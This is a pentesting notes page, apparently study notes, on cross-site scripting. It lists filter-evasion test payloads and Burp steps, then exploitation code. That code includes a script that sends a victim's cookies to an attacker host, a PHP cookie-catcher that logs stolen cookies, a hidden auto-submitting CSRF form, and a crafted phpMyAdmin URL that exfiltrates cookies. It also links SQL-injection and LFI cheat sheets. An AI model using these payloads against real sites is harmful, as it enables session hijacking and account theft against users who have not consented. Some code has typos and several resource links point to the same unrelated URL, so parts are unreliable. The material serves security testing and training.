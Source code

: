 ```yaml
---
title: XSS and Javascript
category: Web Application
order: 5
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> <>[]{}()$--'#"&;/ </code>
* <code> '';!--"<XSS>=&{()} </code>
* <code> <x>'"()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> <script>alert(42);</script> </code>

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

Tools:
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

Resources:
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
#Attacker
python -m SimpleHTTPServer 

#Victim
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}


> **Useful Resources**

* [MongoDB](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Command Injection](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Fuzzing List](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* 
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
[Commix](http://www.kitploit.com/2015/04/commix-automated-all-in-one-os-command.html)
[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)
[CGI-Bin](https://www.hellboundhackers.org/articles/read-article.php?article_id=7)

> **Useful Tools**
* [SQLMap](http://sqlmap.org)

